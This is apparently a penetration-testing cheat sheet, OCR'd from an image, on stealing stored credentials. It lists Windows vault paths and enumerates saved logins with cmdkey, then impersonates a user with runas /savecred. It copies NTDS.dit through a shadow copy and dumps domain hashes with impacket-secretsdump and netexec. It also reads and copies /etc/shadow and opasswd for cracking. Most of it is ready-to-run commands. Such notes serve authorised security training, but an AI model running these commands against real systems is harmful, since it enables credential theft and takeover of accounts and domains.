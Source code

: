- %UserProfile%\AppData\Local\Microsoft\Vault\
- %UserProfile%\AppData\Local\Microsoft\Credentials\
- %UserProfile%\AppData\Roaming\Microsoft\Vault\
- %ProgramData%\Microsoft\Vault\
- %SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\

**Enumerating credentials with cmdkey**
````
>cmdkey /list
Currently stored credentials:
    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
````
**We can use runas to impersonate the stored user like so:**
````
> runas /savecred /user:SRV01\mcharles cmd
````

### Active Directory and NTDS.dit

**Option 1**
````
C:\> vssadmin CREATE SHADOW /For=C:
C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
````
**Option 2**
````
> copy %SystemRoot%\NTDS\Ntds.dit <directory_to_copy>
````
**Extract Hashes**
````
$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
````
**Option 3 - Remote**
````
$ netexec smb <IP> -u <user> -p <password> -M ntdsutil
$ nxc smb <IP> -u <user> -p '<password>' --ntds
$ nxc smb <IP> -u <user> -p '<password>' --ntds --user Administrator (Dump a specific user only)
$ impacket-secretsdump <domain>/<user>:<password>@<ip_dc>
````

## Linux Password Extraction

**PASSWD File**
````
/etc/passwd
student:x:1000:1000:,,,:/home/student:/bin/bash
````
**Shadow File**
````
/etc/shadow
student:$y$j9T$3QSBB6CbHEu...SNIP...f8Ms:18955:0:99999:7:::
````
**Opasswd**
````
$ sudo cat /etc/security/opasswd
````
**Crack linux Creds**
````
$ sudo cp /etc/passwd /tmp/passwd.bak 
$ sudo cp /etc/shadow /tmp/shadow.bak 
````